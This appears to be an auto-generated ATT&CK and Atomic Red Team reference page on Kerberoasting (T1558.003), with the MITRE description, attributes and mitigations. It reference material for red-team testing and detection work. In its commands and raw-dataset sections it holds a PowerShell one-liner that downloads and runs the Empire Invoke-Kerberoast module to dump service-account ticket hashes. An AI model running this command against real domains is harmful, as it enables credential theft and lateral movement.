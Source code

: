 
# Kerberoasting

## Description

### MITRE Description

> Adversaries may abuse a valid Kerberos ticket-granting ticket (TGT) or sniff network traffic to obtain a ticket-granting service (TGS) ticket that may be vulnerable to [Brute Force](https://attack.mitre.org/techniques/T1110).(Citation: Empire InvokeKerberoast Oct 2016)(Citation: AdSecurity Cracking Kerberos Dec 2015) 

Service principal names (SPNs) are used to uniquely identify each instance of a Windows service. To enable authentication, Kerberos requires that SPNs be associated with at least one service logon account (an account specifically tasked with running a service(Citation: Microsoft Detecting Kerberoasting Feb 2018)).(Citation: Microsoft SPN)(Citation: Microsoft SetSPN)(Citation: SANS Attacking Kerberos Nov 2014)(Citation: Harmj0y Kerberoast Nov 2016)

Adversaries possessing a valid Kerberos ticket-granting ticket (TGT) may request one or more Kerberos ticket-granting service (TGS) service tickets for any SPN from a domain controller (DC).(Citation: Empire InvokeKerberoast Oct 2016)(Citation: AdSecurity Cracking Kerberos Dec 2015) Portions of these tickets may be encrypted with the RC4 algorithm, meaning the Kerberos 5 TGS-REP etype 23 hash of the service account associated with the SPN is used as the private key and is thus vulnerable to offline [Brute Force](https://attack.mitre.org/techniques/T1110) attacks that may expose plaintext credentials.(Citation: AdSecurity Cracking Kerberos Dec 2015)(Citation: Empire InvokeKerberoast Oct 2016) (Citation: Harmj0y Kerberoast Nov 2016)

This same attack could be executed using service tickets captured from network traffic.(Citation: AdSecurity Cracking Kerberos Dec 2015)

Cracked hashes may enable [Persistence](https://attack.mitre.org/tactics/TA0003), [Privilege Escalation](https://attack.mitre.org/tactics/TA0004), and [Lateral Movement](https://attack.mitre.org/tactics/TA0008) via access to [Valid Accounts](https://attack.mitre.org/techniques/T1078).(Citation: SANS Attacking Kerberos Nov 2014)

## Aliases

```

```

## Additional Attributes

* Bypass: None
* Effective Permissions: None
* Network: None
* Permissions: None
* Platforms: ['Windows']
* Remote: None
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1558/003

## Potential Commands

```
iex(iwr https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1)
Invoke-Kerberoast | fl
```

## Commands Dataset

```
[{'command': 'iex(iwr '
             'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1)\n'
             'Invoke-Kerberoast | fl\n',
  'name': None,
  'source': 'atomics/T1558.003/T1558.003.yaml'}]
```

## Potential Detections

```json

```

## Potential Queries

```json

```

## Raw Dataset

```json
[{'Atomic Red Team Test - Steal or Forge Kerberos Tickets: Kerberoasting': {'atomic_tests': [{'auto_generated_guid': '3f987809-3681-43c8-bcd8-b3ff3a28533a',
                                                                                              'description': 'This '
                                                                                                             'test '
                                                                                                             'uses '
                                                                                                             'the '
                                                                                                             'Powershell '
                                                                                                             'Empire '
                                                                                                             'Module: '
                                                                                                             'https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1\n'
                                                                                                             'The '
                                                                                                             'following '
                                                                                                             'are '
                                                                                                             'further '
                                                                                                             'sources '
                                                                                                             'and '
                                                                                                             'credits '
                                                                                                             'for '
                                                                                                             'this '
                                                                                                             'attack:\n'
                                                                                                             '[Kerberoasting '
                                                                                                             'Without '
                                                                                                             'Mimikatz '
                                                                                                             'source] '
                                                                                                             '(https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)\n'
                                                                                                             '[Invoke-Kerberoast '
                                                                                                             'source] '
                                                                                                             '(https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)\n'
                                                                                                             'when '
                                                                                                             'executed '
                                                                                                             'successfully '
                                                                                                             ', '
                                                                                                             'the '
                                                                                                             'test '
                                                                                                             'displays '
                                                                                                             'available '
                                                                                                             'services '
                                                                                                             'with '
                                                                                                             'their '
                                                                                                             'hashes. \n'
                                                                                                             'If '
                                                                                                             'the '
                                                                                                             'testing '
                                                                                                             'domain '
                                                                                                             "doesn't "
                                                                                                             'have '
                                                                                                             'any '
                                                                                                             'service '
                                                                                                             'principal '
                                                                                                             'name '
                                                                                                             'configured, '
                                                                                                             'there '
                                                                                                             'is '
                                                                                                             'no '
                                                                                                             'output\n',
                                                                                              'executor': {'command': 'iex(iwr '
                                                                                                                      'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1)\n'
                                                                                                                      'Invoke-Kerberoast '
                                                                                                                      '| '
                                                                                                                      'fl\n',
                                                                                                           'name': 'powershell'},
                                                                                              'name': 'Request '
                                                                                                      'for '
                                                                                                      'service '
                                                                                                      'tickets',
                                                                                              'supported_platforms': ['windows']}],
                                                                            'attack_technique': 'T1558.003',
                                                                            'display_name': 'Steal '
                                                                                            'or '
                                                                                            'Forge '
                                                                                            'Kerberos '
                                                                                            'Tickets: '
                                                                                            'Kerberoasting'}}]
```

# Tactics


* [Credential Access](../tactics/Credential-Access.md)


# Mitigations


* [Privileged Account Management](../mitigations/Privileged-Account-Management.md)

* [Encrypt Sensitive Information](../mitigations/Encrypt-Sensitive-Information.md)
    
* [Password Policies](../mitigations/Password-Policies.md)
    

# Actors

None
